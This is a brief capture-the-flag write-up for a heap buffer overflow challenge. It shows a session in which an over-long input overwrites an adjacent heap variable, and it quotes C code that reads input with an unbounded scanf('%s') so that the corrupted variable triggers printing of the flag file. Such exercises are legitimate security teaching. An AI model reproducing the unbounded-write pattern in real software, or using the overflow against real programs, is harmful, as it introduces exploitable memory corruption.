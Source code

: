 Sovled by entering a long string.  Need to overflow the buffer.

Each string has an pointer address that is next to each other thanks to the malloc.  Malloc appears to five 32 bytes as shown by entering the string below.

```
Enter your choice: 2
Data for buffer: 1234567890123456789012345678901234567890

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x55c00c6572b0  ->   1234567890123456789012345678901234567890
+-------------+----------------+
[*]   0x55c00c6572d0  ->   34567890
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 
```

There is no write check when writting the data to the buffer:

```c
void write_buffer()
{
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

If the safe_var is not "bico" then it will print the flag:

```c
void check_win()
{
    if (strcmp(safe_var, "bico") != 0)
    {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    }
    else
    {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```
